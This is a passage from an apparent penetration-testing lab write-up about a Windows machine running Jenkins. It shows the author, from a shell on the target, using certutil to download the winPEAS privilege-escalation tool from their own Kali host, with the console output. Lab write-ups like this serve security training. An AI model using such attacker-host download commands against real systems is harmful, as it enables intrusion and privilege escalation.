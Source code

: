 
Download the winPEASx64.exe from your kali to the windows.

1. Make sure you are in the directorry where you can access the file. You can go to `c:\users\butler`. 
3. Use the command `certutil.exe -urlcache -f http://192.168.64.4/winPEASx64.exe winpeas.exe` to download thw winPEASx64.exe as winpeas.exe

```
C:\Program Files\Jenkins>cd c:\users
cd c:\users

c:\Users>cd butler
cd butler

c:\Users\butler>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users\butler

07/08/2024  02:28 PM    <DIR>          .
07/08/2024  02:28 PM    <DIR>          ..
08/14/2021  05:16 AM    <DIR>          .groovy
08/14/2021  04:54 AM    <DIR>          3D Objects
08/14/2021  04:54 AM    <DIR>          Contacts
08/14/2021  04:54 AM    <DIR>          Desktop
08/14/2021  04:54 AM    <DIR>          Documents
08/14/2021  05:23 AM    <DIR>          Downloads
08/14/2021  04:54 AM    <DIR>          Favorites
08/14/2021  04:54 AM    <DIR>          Links
08/14/2021  04:54 AM    <DIR>          Music
08/14/2021  04:56 AM    <DIR>          OneDrive
08/14/2021  04:55 AM    <DIR>          Pictures
08/14/2021  04:54 AM    <DIR>          Saved Games
08/14/2021  04:55 AM    <DIR>          Searches
08/14/2021  04:54 AM    <DIR>          Videos
               0 File(s)              0 bytes
              16 Dir(s)  12,394,033,152 bytes free

c:\Users\butler>certutil.exe -urlcache -f http://192.168.64.4/winPEASx64.exe winpeas.exe
certutil.exe -urlcache -f http://192.168.64.4/winPEASx64.exe winpeas.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\Users\butler>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users\butler

07/08/2024  07:59 PM    <DIR>          .
07/08/2024  07:59 PM    <DIR>          ..
08/14/2021  05:16 AM    <DIR>          .groovy
08/14/2021  04:54 AM    <DIR>          3D Objects
08/14/2021  04:54 AM    <DIR>          Contacts
08/14/2021  04:54 AM    <DIR>          Desktop
08/14/2021  04:54 AM    <DIR>          Documents
08/14/2021  05:23 AM    <DIR>          Downloads
08/14/2021  04:54 AM    <DIR>          Favorites
08/14/2021  04:54 AM    <DIR>          Links
08/14/2021  04:54 AM    <DIR>          Music
08/14/2021  04:56 AM    <DIR>          OneDrive
```